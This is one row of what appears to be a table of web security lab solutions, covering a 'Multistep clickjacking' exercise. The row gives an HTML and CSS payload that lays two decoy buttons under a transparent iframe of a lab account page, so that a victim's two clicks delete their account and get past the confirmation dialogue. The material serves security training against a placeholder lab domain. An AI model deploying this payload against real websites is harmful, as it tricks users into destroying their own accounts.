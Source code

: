 |58    |Multistep clickjacking                                                                                                   |<style> 	iframe { 		position:relative; 		width:$width_value; 		height: $height_value; 		opacity: $opacity; 		z-index: 2; 	}    .firstClick, .secondClick { 		position:absolute; 		top:$top_value1; 		left:$side_value1; 		z-index: 1; 	}    .secondClick { 		top:$top_value2; 		left:$side_value2; 	} </style> <div class="firstClick">Test me first</div> <div class="secondClick">Test me next</div> <iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |Multi-step, where there are two elements that will appear after each other. This is to bypass a confirmation dialogue that appears after a user first clicks on the ‘delete account’ button.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |Clickjacking, Practitioner                  |